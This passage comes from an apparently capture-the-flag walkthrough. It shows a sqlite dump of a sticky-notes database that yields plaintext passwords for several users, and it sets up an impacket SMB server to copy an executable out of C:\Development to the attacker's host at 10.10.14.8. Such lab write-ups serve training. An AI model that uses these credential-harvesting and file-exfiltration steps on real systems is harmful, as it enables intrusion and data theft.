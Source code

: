 ```sql
|8e814e57-9d28-4288-961c-31c806338c5b|8e814e57-9d28-4288-961c-31c806338c5b|637422450113001719||637422450113001719
sqlite> select count(*) from Note;
1
sqlite> select * from Note;
\id=48c70e58-fcf9-475a-aea4-24ce19a9f9ec juliette: jUli901./())!
\id=fc0d8d70-055d-4870-a5de-d76943a68ea2 development: fN3)sN5Ee@g
\id=48924119-7212-4b01-9e0f-ae6d678d49b2 administrator: [MOVED]|ManagedPosition=|1|0||Yellow|0|||||||0c32c3d8-7c60-48ae-939e-798df198cfe7|8e814e57-9d28-4288-961c-31c806338c5b|637423162765765332||637423163995607122
sqlite> select count(*) from StrokeMetadata;
0
sqlite> select count(*) from UpgradedNote;
0
sqlite> .quit
```

Now we got some credentials from filled tables. We've already known the credentials of user `juliette`, but `development` is a new user for us.

- `development:fN3)sN5Ee@g`

# PE: [Reversing an Executable](#reversing) & [SQLi](#sqli)

Now we have the privilege for directory `C:\Development`.<br>
We transfer the file to our localhost using `impacket-smbserver`.

```bash
mkdir smbdir
impacket-smbserver smbshare smbdir -smb2support
```
```powershell
copy .\Krypter_Linux \\10.10.14.8\\smbshare
```
![](src/transfer.png)
